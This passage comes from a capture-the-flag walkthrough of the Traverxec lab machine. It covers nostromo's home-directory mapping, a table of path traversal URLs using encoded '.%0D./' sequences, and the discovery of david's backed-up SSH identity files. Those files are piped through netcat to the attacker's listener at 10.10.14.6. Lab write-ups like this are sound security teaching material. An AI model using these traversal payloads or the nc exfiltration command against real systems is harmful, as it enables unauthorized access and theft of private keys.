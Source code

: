 So `/homedirs /home` points `nostromo` to the home directories, and then in a users directory, the webroot will be `public_www`. So `http://10.10.10.165/~david` will be `/home/david/public_www`.

My first thought was to access this via the browser:

![image-20191122134727465](https://0xdfimages.gitlab.io/img/image-20191122134727465.png)

I could even use the traversal vulnerability to explore in david’s home directory. Tried a bunch of stuff:

| URL | Result | Notes |
| --- | --- | --- |
| `http://10.10.10.165/~david/.%0d./` | Empty Page | Likely exists, no permissions to read |
| `http://10.10.10.165/~david/.%0D./.ssh/` | Empty | Likely exists, no permissions to read |
| `http://10.10.10.165/~david/.%0D./0xdf/` | 404 Not Found | Doesn’t exist (as expected) |
| `http://10.10.10.165/~david/.%0D./user.txt` | 403 Forbidden | Exists, but no permissions to read |
| `http://10.10.10.165/~david/index.html` | Image Above | I have permissions to read in this dir |

The last test was where it occurred to me that www-data must be able read in this directory, `/home/david/public_www`. So I went back to my shell, and not only can I get into the directory, but there’s a folder there:

```

www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls            
index.html  protected-file-area 

```

Inside, there’s backup keys:

```

www-data@traverxec:/home/david/public_www$ cd protected-file-area/
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz   

```

I’ll send that through `nc` back to my box. With `nc` listening on my host, I’ll send it back:

```

www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz | nc 10.10.14.6 443  

```

On my host:

```

root@kali# nc -lnvp 443 > backup-identity-files.tgz.b64 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.165.
Ncat: Connection from 10.10.10.165:53004.

```
